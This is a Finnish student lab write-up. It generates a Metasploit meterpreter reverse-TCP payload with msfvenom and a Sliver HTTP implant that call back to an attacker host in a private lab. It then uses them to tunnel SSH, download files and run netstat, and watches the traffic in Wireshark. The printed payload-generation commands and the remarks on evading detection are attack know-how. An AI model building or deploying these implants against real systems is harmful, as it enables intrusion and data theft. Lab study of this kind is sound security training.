## a) Venom haittaohjelma ja metasploitin multi/handler


Luodaan payload kali linuxissa ```msfvenom``` työkalun avulla. Kali vm ja maalikone on samassa verkossa

kali = 192.168.100.5
metasploitable = 192.168.100.10

Luodaan payload ``` msfvenom``` työkalun avulla



``` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f elf -o revshell.elf``` 

``` LHOST```  on kalin osoite, ``` -f elf```  kertoo että halutaan käyttää formaattina elf:iä eli executable linkable format, koska kohde on linuxkone. 


Seuraavaksi laitetaan kali kone kuuntelemaan yhteyttä



Nyt pitää vain saada meidän juuri luotu ```revshell.elf``` tiedosto kohdekoneelle. Koska minulla on pääsy kummallekkin koneelle, niin siirtäminen on melko helppoa. Avasin kali koneella pythonin avulla http palvelimen ja metasploitable koneella latasin ```revshell.elf``` tiedoston koneelle, laitoin oikeudet kuntoon ja käynnistin ohjelman.




Kalikoneella menin tarkastamaan ilmestyikö mitään yhteyksiin ja msfconsole huomasi heti että yksi yhteys on luotu ja pääsin testailemaan komentoja. Avasin myös wiresharkin ja huomasin että hyökkääjä ja uhri keskustelee toisilleen ja jos kirjoitan meterpreteriin komennon niin 
wireshark täyttyy uusista yhteydenotoista.






## b) Venom sniffer




Wiresharkissa näemme että yhteys palautuu juurikin hyökkäyskoneen 4444 porttiin. Se soittaa siis kotiin halutusti aina kun kirjoitan komentoriviin jotain. Tämän pitäisi laittaa ammattilaisten hälytyskellot soimaan. Jos hyökkääjä haluaisi olla huomaamattomampi, niin portin voisi vaihtaa ja yrittää muutenkin häivyttää hyökkäystä paremmin muiden meneillä olevien yhteyksien sekaan. Payloadiakin voi vaihtaa huomaamattomampaan. 


## c) Sliver http


Kalikoneella luodaan taas payload, tällä kertaa sliver ohjelmalla. Ensiksi asennetaan sliverin ```sudo apt install sliver-server``` komennolla. 



käynnistetään sliver ja generoidaan uusi payload komennolla 

```generate --http 192.168.100.5 --os linux --arch 386 --save /home/kali/```



Käynnistetään HTTP listener sliverissä


Käynnistin tiedoston metasploitable koneella, mutta mitään ei tullut näkyviin. Metasploitable on luultavasti liian vanha tätä payloadia varten. 



Testasin tehdä tämän localhostilla, joten generoin uuden payloadin, mutta laitoin ip osoitteeksi 127.0.0.1




Näytti toimivan, sliver näyttää HTTP yhteyden






## d) Sliver jatkuu


Voimme lähettää pari komentoa testiksi, pitää eka valita sessio



payload siis lähettelee normaalin näköistä liikennettä jonka vaikeuttaa tunnistamista



Jos suodattaa vastauksia, niin näkyy ne kohdat jolloin oikeasti lähetin jotain yhteyden kautta




## e) ominaisuuksien muuttaminen




Voimme muokata yhteyden ominaisuuksia. Tässä esim. vaihan ssh portin kulkemaan 2222 portin yli hyökkääjän koneen kautta.




Testaan yhteyttä antamalla tarkan portin ```-p 2222``` ssh komennolle



Olen sisällä portin kautta ja voin nähdä saman Wiresharkin kautta, liikennettä liikkuu portissa 2222




## f) Sliver komennot download ja netstat


Sliverin avulla voimme vaikka ensin etsiä jokin kiinnostava tiedosto tai kansio ja käyttämällä download komentoa se latautuu
koneelle jolta hyökkäys tehdään omaan kansioon.




netstat komennolla voidaan tutkia uhrin verkkoympäristöä. Siellä näkyy myös meidän aktiivinen sessio.





